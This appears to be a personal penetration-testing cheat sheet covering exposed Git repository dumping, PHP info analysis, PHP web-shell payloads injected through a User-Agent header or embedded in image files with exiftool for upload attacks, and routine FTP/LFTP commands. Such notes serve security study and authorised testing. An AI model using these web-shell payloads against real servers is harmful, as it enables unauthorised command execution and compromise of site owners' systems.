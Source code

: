 #### Exposed Git Repositories
- git-dumper `git_dumper.py URL [OUTPUT_DIR]`
    - Example: `python git_dumper.py http://TARGET_IP[:PORT]/.git/ dump`

#### PHP

##### PHP Info File
It is a file that contains information about the PHP configuration on the server. It can be used to find vulnerabilities and misconfigurations.

- `disable_functions`: List of disabled PHP functions. If dangerous functions like `exec`, `system`, `shell_exec`, `passthru`, `popen`, `proc_open`, etc. are not listed here, they can be used to execute commands on the server.

- `User-Agent`: The user agent string of the web server is rendered. It can be used to identify the server software and version. 
    - We can change it to a php shell payload to try to execute commands. `curl -s -X GET http://TARGET_IP[:PORT]/ -H "User-Agent: <?php system('whoami'); ?>" | grep -i "User-Agent"`

##### Image Upload Vulnerability
- Add a PHP payload to an image file `<?php system($_GET['cmd']);?>`
- Add `pre` tags to the payload to avoid corruption `<?php echo '<pre>'; system($_GET['cmd']); echo '</pre>'; ?>`

- ¿¿¿??? Use `exiftool` to add the PHP payload to the image file without corrupting it:
    - `exiftool -Comment='<?php system($_GET["cmd"]);?>' image.jpg`

- Upload the image file to the web server
- Access the uploaded image file and execute commands `http://TARGET_IP[:PORT]/path/to/uploaded/image.php?cmd=COMMAND`

#### Spring Boot

##### Actuator
This is a Spring Boot feature that provides endpoints for monitoring and managing applications.

### FTP

- Connect to FTP server `ftp TARGET_IP[:PORT]`
    - To login as anonymous user `anonymous`
    - To login with a username and password `USER USERNAME` then `PASS PASSWORD`
    - To list files and directories `ls` or `dir`
    - To change directory `cd DIRECTORY`
    - To download a file `get FILENAME`
    - To upload a file `put FILENAME`
    - To download multiple files `mget FILE1 FILE2 ...`
    - To upload multiple files `mput FILE1 FILE2 ...`
    - To exit the FTP session `bye` or `exit`

- LFTP (advanced FTP client)
    - Connect to FTP server `lftp ftp://USERNAME:PASSWORD@TARGET_IP[:PORT]`
    - To list files and directories `ls` or `dir`
    - To change directory `cd DIRECTORY`
    - To download a file `get FILENAME`
    - To upload a file `put FILENAME`
    - To download multiple files `mget FILE1 FILE2 ...`
    - To upload multiple files `mput FILE1 FILE2 ...`
    - To mirror a remote directory to a local directory `mirror REMOTE_DIR LOCAL_DIR`
    - To mirror a local directory to a remote directory `mirror -R LOCAL_DIR REMOTE_DIR`
    - To exit the LFTP session `bye` or `exit`
